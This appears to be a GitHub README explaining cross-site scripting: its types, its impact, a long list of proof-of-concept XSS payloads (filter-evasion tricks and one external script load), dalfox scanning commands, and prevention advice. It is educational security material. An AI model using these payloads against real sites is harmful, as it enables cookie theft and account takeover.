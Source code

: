 # XSS-Explained
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. 
XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different user like as alert(1) this is the most popular.

## types of XSS attacks 
1.Refleected XSS 
  Description: off a web server often via a query string) and executed in a browser. 
  It happens in(search , URLs)
  
2.Stord XSS 

 Description: Script is stored on the server 
 It happens in ( message , user profiles , comments , chat bot or anywhere to sotred )
 
3.Dom XSS 

 Client-side vulnerability 
 
4.slef XSS 
Occurs when a user unknowingly executes a malicious script that they themselves injected into a vulnerable input field (such as browser developer tools or manipulated links).

## impact 

Data theft as cookies or credentials
Session hijacking and account takeovers.
Defacing websites.
Spreading malware via compromised websites

### PoC 

- `<script>alert(1)</script>`
- `<svg>prompt(1)</svg>`
- `<xss onafterscriptexecute=alert(1)><script>1</script>`
- `<style>@keyframes x{from {left:0;}to {left: 1000px;}}:target {animation:10s ease-in-out 0s 1 x;}</style><xss id=x style="position:absolute;" onanimationcancel="print()"></xss>`
- `<style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>`
- `<xss onbeforescriptexecute=alert(1)><script>1</script>`
- `<body onbeforeprint=console.log(1)>`
- `<svg><animate onbegin=alert(1) attributeName=x dur=1s>`
- `<audio oncanplay=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>`
- `<xss oncontentvisibilityautostatechange=alert(1) style=display:block;content-visibility:auto>`
- `<input type=hidden oncontentvisibilityautostatechange=alert(1) style=content-visibility:auto>`
- `<svg><animate onend=alert(1) attributeName=x dur=1s>`
- `<audio src/onerror=alert(1)>`
- `<a id=x tabindex=1 onfocus=alert(1)></a>`
- `<xss onfocus=alert(1) autofocus tabindex=1>`
- `<body onhashchange="print()">`
- `<xss id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></xss>`
- `<input onauxclick=alert(1)>`
- `<xss contenteditable onbeforeinput=alert(1)>test</xss>`
- `<input type=file oncancel=alert(1)>`
- `<xss draggable="true" ondragstart="alert(1)" style=display:block>test</xss>`
- `<form onreset=alert(1)><input type=reset>`
- `<form><input type=search onsearch=alert(1) value="Hit return" autofocus>`
- `<body onselectstart=alert(1)>select some text`
- `<form onsubmit=alert(1)><input type=submit>`
- `<body ontouchend=alert(1)>`
- `">img scr =q onerror=prompt(100)>`
- `<script>onerror=alert;throw 1</script>`
- `<script>{onerror=alert}throw 1</script>`
- `<script>{onerror=eval}throw{lineNumber:1,columnNumber:1,fileName:1,message:'alert\x281\x29'}</script>`
- `<script>alert\`1\`</script>`
- `<svg onload=alert(1)>`
- `<iframe src="javascript:alert(1)">`
- `<a href="javascript:alert(1)">XSS</a>`
- `<script src="data:text/javascript,alert(1)"></script>`
- `<a href=# download="filename.html">Test</a>`
- `javascript:confirm(1);`
- `<scr<script>ipt>alert('XSS')</scr<script>ipt>`
- `<IMG SRC="javascript:alert('XSS');">`
- `&lt;SCRIPT a=&quot;>&apos;>&quot; SRC=&quot;http://ha.ckers.org/xss.js&quot;&gt;&lt;/SCRIPT&gt;`
- `&lt;A HREF=&quot;http://66.102.7.147/&quot;&gt;XSS&lt;/A&gt;`
- `&lt;A HREF=&quot;http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D&quot;&gt;XSS&lt;/A&gt;`
- `&lt;A HREF=&quot;http://0x42.0x0000066.0x7.0x93/&quot;&gt;XSS&lt;/A&gt;`
- `&lt;A HREF=&quot;http://0102.0146.0007.00000223/&quot;&gt;XSS&lt;/A&gt;`
- `<img DYNSRC="javascript:document.vulnerable=true;">`
- `<img LOWSRC="javascript:document.vulnerable=true;">`
- `<~/XSS STYLE=xss:expression(alert('XSS'))>`

## PoC by automation tool

1.creat file for find all URLs

2.Using dalfox 

```
gau example.com > urls.txt
dalfox file urls.txt --output results.txt
```

## Preventing XSS Attacks

1. Output Encoding: Encode user input before outputting it back to the browser to ensure that scripts cannot be executed.
2. Content Security Policy (CSP): CSP is a browser security feature that helps prevent XSS by restricting which scripts can be executed on a page.
Example of a CSP header:
```Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com;```

3. Input Validation: Validate and sanitize user inputs to ensure only safe data is processed.
For example, block certain characters (e.g., <, >, &) or use whitelisting.
4. HTTPOnly Cookies: Set the HttpOnly flag on cookies to prevent them from being accessed by JavaScript.
5. Escape User Input: Ensure that any user-generated content (e.g., HTML, JavaScript) is properly escaped before being inserted into the pag

References :
[**OWASP**](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS))

[**portswigger**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[**JS Fuck**](https://jsfuck.com/)





